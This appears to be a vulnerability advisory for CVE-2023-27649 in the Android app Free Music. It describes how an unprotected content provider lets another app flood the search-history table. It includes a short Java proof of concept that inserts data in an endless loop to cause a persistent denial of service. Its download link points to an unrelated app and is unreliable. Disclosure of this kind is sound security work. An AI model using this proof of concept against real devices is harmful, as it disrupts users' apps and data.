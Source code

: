 ## SQL injection vulnerability exists in Free Music（CVE-2023-27649）

Vendor：Trusted Tools (https://bestools.group/)

Affected product：Free Music (freemusic.download.musicplayer.mp3player)

Version：2.1.0.47, 2.0.0.46, 1.9.1.45, 1.8.2.43

Download link：https://apkpure.com/cn/space-clean-super-cleaner/com.ludashi.xsuperclean

Description of the vulnerability for use in the CVE： SQL injection vulnerability found in Trusted Tools Free Music v.2.1.0.47, v.2.0.0.46, v.1.9.1.45, v.1.8.2.43 allows a remote attacker to cause a denial of service via the search history table.

Additional information：Free Music is a music player that includes a built-in search function. When a user searches for music, Free Music saves their search history in a database and displays it when the user clicks on the search box. However, an unauthorized malicious application can add arbitrary data to the search history table. This can result in the content of the app's user interface being hijacked. As the malicious data continues to accumulate, it can eventually trigger a denial of service attack when the user uses the search function. Unfortunately, even restarting the app will not fix this security issue, as the malicious data is stored persistently in the database.

poc：

```java
public void attack(){
  ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
	Uri uri = Uri.parse("content://freemusic.download.musicplayer.mp3player.data/searchhistory");
	ContentValues contentValues = new ContentValues();
  while(true){
    contentValues.put("searchstring",randomString);
		contentResolver.insert(uri,contentValues);
  }
}
```



